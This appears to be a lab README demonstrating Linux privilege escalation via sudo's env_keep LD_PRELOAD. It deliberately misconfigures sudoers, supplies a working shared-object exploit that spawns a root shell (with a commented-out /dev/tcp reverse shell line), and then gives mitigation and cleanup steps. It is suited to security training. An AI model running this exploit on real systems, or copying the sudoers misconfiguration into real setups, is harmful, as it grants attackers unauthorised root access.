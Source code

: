 # Setup

```sh
# root
cp /etc/sudoers /etc/sudoers.bak
adduser sudo3
echo "sudo3 ALL=(ALL) NOPASSWD: /usr/bin/id" >> /etc/sudoers
echo "Defaults env_keep += LD_PRELOAD" >> /etc/sudoers
```

# Exploit

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
    // system("bash -c 'bash -i >& /dev/tcp/127.0.0.1/10001 0>&1'");
}
```


```bash
gcc -fPIC -shared -nostartfiles -o exp.so exp.c
sudo LD_PRELOAD=./exp.so id
```


# Mitigate

```bash
# Remove env_keep += LD_PRELOAD
```

# Clean Up

```bash
deluser sudo3 --remove-home
cp /etc/sudoers.bak /etc/sudoers
```